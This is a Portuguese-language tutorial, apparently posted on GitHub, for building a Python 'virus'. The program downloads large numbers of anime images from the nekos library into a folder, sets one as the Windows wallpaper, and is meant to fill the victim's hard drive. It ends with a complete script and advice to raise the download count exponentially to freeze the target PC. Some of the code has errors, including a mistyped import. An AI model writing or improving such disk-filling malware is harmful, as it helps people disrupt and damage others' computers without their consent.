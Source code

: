 Virus hpaso a paso para python 
Capitulo 1 do virus entendendo como funciona a biblioteca(mas ou menos)

Meu virus de hentai passo a passo para baixa a biblioteca akaneko:
Primeiramente eu to fazendo esse tutorial inspírado num video do youtube irei coloca o link do canal do cara no final do documento, é um pouco semelhante com o dele o meu codigo

De alguma forma se Voce for trabalhar no pyhton nao da para baixa na maneira normal usando o comando:
npm akaneko (somente para quem for progamar em js)
A biblioteca akaneko tem varias outras imagens que voce que progama em java script pode utilizar, mas como estou acostumado em pyhton irei fazer em python
No python voce tem que fazer o seguinte comando:
pip install nekos.py  (isso ira baixa a biblioteca nekos para seu pc, no caso Voce baixara somente isso, fazer o que  se para quem programa em python só vai ter isso mas é suficiente para trava um pc rsrsrs)

Primeiramente vamos adicionar as blibiotecas que vamos usar:
import nekos
import requests
from concurrent.futures import ThreadPoolExecutor
import os
import crypes





Primeira parte do codigo:
import requests
import os

def checar_net():
    try:
        requests.get('https://www.google.com/')
        return True
    except requests.ConnectionError:
        return False
if checar_net():
    print("tem net")
else:
    print("não tem net")
Eu me inspirei um cara que vi no youtube que ele sempre checar primeiro se o pc esta conectado na internet

Segundo passo baixa uma imagem aleatoria da biblioteca:
import nekos
import requests

# URL da imagem aleatória de anime
url = nekos.img('neko')

# Baixa a imagem
response = requests.get(url)
with open('imagem1.jpg', 'wb') as f:
    f.write(response.content)

print("Imagem baixada com sucesso!")


Acaso voce queira ve os modulos disponiveis na biblioteca vou repassar o sequinte comando:
import nekos

# Lista todos os atributos do módulo nekos
print(dir(nekos))

você tem os seguintes atributos disponíveis na biblioteca nekos.py:

cat: Retorna uma imagem aleatória de um gato.
dict: Retorna uma imagem aleatória de um dicionário.
eightball: Retorna uma resposta aleatória de uma bola 8.
errors: Lista de exceções personalizadas.
fact: Retorna um fato aleatório.
http: Uma função para lidar com solicitações HTTP.
img: Retorna uma imagem aleatória.
name: Retorna um nome aleatório.
noresponse: Uma exceção para quando não há resposta.
owoify: Owoify seu texto.
spoiler: Owoify seu texto como spoiler.
textcat: Retorna um texto aleatório de um gato.
why: Retorna uma razão aleatória.
Com base nisso, parece que você pode usar img para obter imagens aleatórias. Vamos usá-lo para baixar e exibir uma imagem:
import nekos
import requests
import matplotlib.pyplot as plt

def mostrar_imagem(url):
    # Faz o download da imagem
    response = requests.get(url)
    # Converte a imagem em bytes para exibição
    imagem = plt.imread(response.content, format='jpg')
    # Exibe a imagem
    plt.imshow(imagem)
    plt.axis('off')  # Remove os eixos
    plt.show()

# URL da imagem aleatória
url = nekos.img('neko')

# Mostra a imagem
mostrar_imagem(url)

Este codigo baixara e exibira uma imagem aleatoria de um neko.  Mas é claro que voce não vai querer somente uma imagem ne? :)



Segundo capitulo do virus, baixando mas de uma imagem :)

Esse virus tem o objetivo de lotar o hd da pessoa de imagem então logo abaixo tem o codigo:
import nekos
import requests
from concurrent.futures import ThreadPoolExecutor

def download_image(url, path):
    response = requests.get(url)
    if response.status_code == 200:
        with open(path, 'wb') as f:
            f.write(response.content)
        print(f"Imagem salva em {path}")
    else:
        print(f"Falha ao baixar a imagem de {url}. Status code: {response.status_code}")

def main():
    urls = [nekos.img('neko') for _ in range(10)]  # Gere 10 URLs de imagens
    paths = [f'imagem_{i}.jpg' for i in range(10)]  # Crie 10 nomes de arquivo

    with ThreadPoolExecutor(max_workers=10) as executor:
        for url, path in zip(urls, paths):
            executor.submit(download_image, url, path)

if __name__ == "__main__":
    main()
Essa parte é para que voce abaixe somente uma quantidade de imagem limitada, e sim nessa parte eu retirei aquilo de checar a internet mas irei coloca novamente, isso é apenas um exemplo de como voce conseque baixa mas de uma imagem


Logo abaixo eu mostrarei o codigo completo para baixa 100 imagens:
import nekos
import requests
from concurrent.futures import ThreadPoolExecutor
import os
import ctypes

#checar inicialmente se tem internet
def checar_net():
    try:
        requests.get('https://www.google.com/')
        return True
    except requests.ConnectionError:
        return False
if checar_net():
    print("tem net")
else:
    print("não tem net")

#função de baixa imagens da biblioteca
def download_image(url, path):
    response = requests.get(url)
    if response.status_code == 200:
        with open(path, 'wb') as f:
            f.write(response.content)
        print(f"Imagem salva em {path}")
    else:
        print(f"Falha ao baixar a imagem de {url}. Status code: {response.status_code}")
        
  #definir a imagem depois do download como papel de parede       
def set_walpaper (image_path):
    if os.path.exists(image_path):
        ctypes.windll.user32.SystemParametersInfoW(20, 0, image_path, 3)
        print(f"papel de parede alterado para {image_path}")
    else:
        print(f"imagem não encontrada: {image_path}")
        
        
        

def main():
    num_images = 100
    urls = [nekos.img('neko') for _ in range(num_images)]  
    diretory = f'D:\\teste_virus\\'   

    with ThreadPoolExecutor(max_workers=10) as executor:
        for i, url in enumerate(urls):
            filename = f'imagem_{i}.jpg'
            path = os.path.join(diretory, filename)
            
            executor.submit(download_image, url, path)
            
    set_walpaper(os.path.join(diretory, 'imagem_1.jpg'))
    
    
    
    
    
if __name__ == "__main__":
    main()

Agora para travar um pc voce tem que aumenta o numero de imagem para baixa, recomendo que modifique e coloque ** exponencial para aumenta de forma significativa 
